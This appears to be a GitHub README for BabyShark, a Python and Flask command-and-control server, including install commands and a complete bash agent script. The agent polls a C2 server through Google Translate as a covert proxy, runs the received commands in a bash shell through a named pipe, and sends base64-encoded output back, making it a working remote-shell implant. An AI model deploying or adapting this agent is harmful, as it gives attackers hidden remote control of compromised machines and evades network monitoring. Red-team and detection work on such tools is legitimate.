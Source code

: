 ![babyshark](https://repository-images.githubusercontent.com/268794697/4b8cb480-a584-11ea-9dd2-59cd3993dade)

# INTRO
<p style='text-align: justify;'>
This is a basic C2 generic server written in Python and Flask.

This code has based ideia to [GTRS](https://github.com/mthbernardes/GTRS), which uses [Google Translator](https://translate.google.com) as a proxy for sending commands to the infected host. The BabyShark project aims to centralize reverse connections with agents, creating a way to centralize several types of connections in one place. 

BabyShark does not generate infection agents, but it does offer a template to connect to it.
</p>

# INSTALL

```
git clone https://github.com/danilovazb/BabyShark/
cd BabyShark
mkdir database
sqlite3 database/c2.db < schema.sql
```

# AGENTS MODEL

### GTRS - https://github.com/mthbernardes/GTRS

This client example from GTRS for connect to BabyShark:

```bash
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl --silent $second -H "$result" )
  else
    command=$(curl --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done

```
___
